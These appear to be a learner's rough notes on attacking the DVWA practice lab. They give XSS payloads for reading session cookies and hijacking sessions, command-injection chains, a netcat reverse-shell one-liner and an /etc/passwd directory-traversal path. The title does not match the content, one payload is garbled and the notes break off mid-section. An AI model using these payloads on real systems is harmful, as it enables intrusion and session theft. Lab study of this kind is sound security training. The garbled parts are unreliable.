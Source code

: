 # Decryption of Hash Value

Understanding the HTML Code. We need to understand what exactly the body part is.

```html
<script> alert("Hello");</script>
```

This is called XSS. Whenever this script is being called, all the items will have the entry of the following script you inserted in the inputs. 

PHPSESSID is required for session hijacking, meaning through this you'd be able to hijack the session using the following sessionid, but remember that this is only valid for the PHPSESSID, meaning it works in case of PHP only.

# What needs to be done?

- Go to the website, and run the above script and this script is used to check or learn the 

```
<script> alert(document.cookie); </script>
```

- Now you need to go to the website, but now you have the session id, and now go to the burpsuite and try the same sessionid with the same session id on cookie. Thus, now you can perform the attack, as you are able to login to the system. 

- 10101

- You can go to the DVWA and also look for the XSS.

- You can also do this using the url, meaning you can change the *name* in File Autentication method, writing the same inputs of `script` would do.

```
?name=<script>alert("Hello"<%@F>)>
```

# Command Injection Attack 

Command Injection is the paradigm of exploiting the vulnerability where attacker is able to identify the code loophole, where anyone might use the input methods to execute malicious file and able to hack the whole system and through this the attacker will be able to create **backdoor** for themselves. This can be done in the following way. First identify the code injection point, and then make sure that you've included the file on the server and the you need to execute the file on the server.

Another method is Reverse Shell Direction, where you can execute the following command to create a  session that is listening on the particular port.

```
nc -nlvp 1337
```

After this you need to execute the following command to redirect the shell command to your own server.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /your/shell/path -i 2>&1 | nc <localhost/IPAddress> 1337 > /tmp/f
```

The following code will redirect the shell command. This was about the Low sercurity, what if we want to break the medium security, meaning what about breaking the code on *Medium Level*. So, *To break the code at Medium Level*, view the source code and try breaking the code, where they say trying running the *ping* in the background. 

```
127.0.0.1 & ls -la & pwd & whoami & hostname
```

What `&` does is that it allows you to run the command in the background. Through this you are able to breach the security. The Attacker may use as any unauthorised access of the system, where attacker will user various input methods vulnerability and will be able to find his way into the system.

# File Inclusion Vulnerability

File Inclusion is the method of uploading the file that is corrupted and making use of it for creating the backdoor through the file. Say it could be any shell file or any other file that will execute the corrupted code.

Baiscally there are two kinds one is LFI (Local File Inclusion), meaning if the file was moved locally and another is RFI (Remote File Inclusion), meaning when the file was included remotely over the server. Normally it is where one vulnerability is found where the input is taken by the users without **sanitizing** the filename, popularly an attacker could replace a filename `image.jpg` with some payload.

Normally what they do is that they traverse the directory, which is called **directory traversal payload** that escapes the script directory and traverses the filesystem directory structure, thus it could expose the sensitive file as below:

```
foo.php?file=../../../../../../../../../etc/passwd
```



# Open HTTP Redirection

*What is HTTP Redirection?* It is about redirecting the link, In DVWA is 

# How to Start the FTP Redirection?

The FTP Redirection can be enabled using the following steps:

- You need to `allow` for the configuration. 